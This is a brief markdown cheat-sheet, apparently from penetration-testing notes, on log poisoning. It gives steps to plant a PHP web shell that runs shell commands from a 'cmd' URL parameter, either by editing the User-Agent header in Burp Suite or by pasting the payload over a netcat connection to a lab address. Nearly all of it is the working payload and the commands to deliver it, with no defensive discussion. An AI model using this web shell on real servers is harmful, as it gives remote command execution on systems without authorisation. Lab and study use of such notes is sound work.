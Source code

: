 - - -

## Via BurpSuite : 

- [ ] open the request in Burp 
- [ ] Change User-Agent content to :

```php
<?php echo shell_exec($_GET['cmd']);?>
```

- - -

##  Via Netcat :

Connect to the target with netcat :
```sh
nc -v 10.11.1.111 80
```

And paste the following payload : 
```php
<?php echo shell_exec($_GET['cmd']);?>
```


